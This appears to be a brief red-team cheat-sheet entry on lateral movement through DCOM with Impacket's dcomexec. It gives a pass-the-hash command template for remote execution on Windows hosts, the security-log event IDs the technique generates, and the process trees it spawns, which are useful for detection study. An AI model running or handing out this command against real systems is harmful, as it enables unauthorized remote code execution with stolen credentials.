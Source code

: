### Source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/dcomexec.py  

### Lateral movement using DCOM endpoints (example MMC20.Application, ShellWindows, ShellBrowserWindow)
```
impacket-dcomexec -hashes :<ntlmHash> <domain>/<user>@<rhost>
```

### Opsec considerations - Windows Security Log Event IDs
```
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple
```

### Running processes
```
cmd.exe
└── Conhost.exe
mmc.exe
└── cmd.exe
    └── Conhost.exe
```

